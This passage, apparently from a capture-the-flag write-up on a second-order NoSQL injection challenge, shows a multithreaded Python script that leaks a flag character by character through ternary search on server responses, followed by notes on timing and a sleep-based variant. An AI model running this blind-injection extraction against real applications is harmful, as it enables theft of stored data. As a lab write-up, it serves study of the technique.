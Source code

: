 ```py

    session.post(EDIT_URL, data={
      "email": payload
    })

    resp = requests.get(QUERY_URL + name)
    req_count += 2

    if resp.status_code == 500:
      R = ML
      if len(group[0]) == 1:
        return group[0]
    elif resp.text == 'null':
      L = ML
      R = MR
      if len(group[1]) == 1:
        return group[1]
    else:
      L = MR
      if len(group[2]) == 1:
        return group[2]

start = time.time()
print("leaking flag...")
length = 19
flag = [' '] * length
with concurrent.futures.ThreadPoolExecutor(max_workers=30) as executor:
    futures = {executor.submit(leak_flag, i): i for i in range(length)}
    for future in concurrent.futures.as_completed(futures):
        index = futures[future]
        data = future.result()
        flag[index] = data
        print("".join(flag))

print(f"time: {time.time() - start}s, {req_count} requests")
```

![ternary search](/img/intigriti-0123-second-order-injection/p4.png)

It takes 7s(-30%) and 185 requests(-36%).

Can we go faster? Probably, I am looking forward to seeing a faster solution. Can we reduce the request? Absolutely!

Since [sleep function](https://www.mongodb.com/docs/v4.2/reference/method/sleep/) is enabled, we can use it to introduce more states, and leak the flag in less requests theoretically, but need to wait much longer.

## A faster solution

After this writeup has been published, @antonio345 reach me on Discord, saying that he has an idea to make it faster.
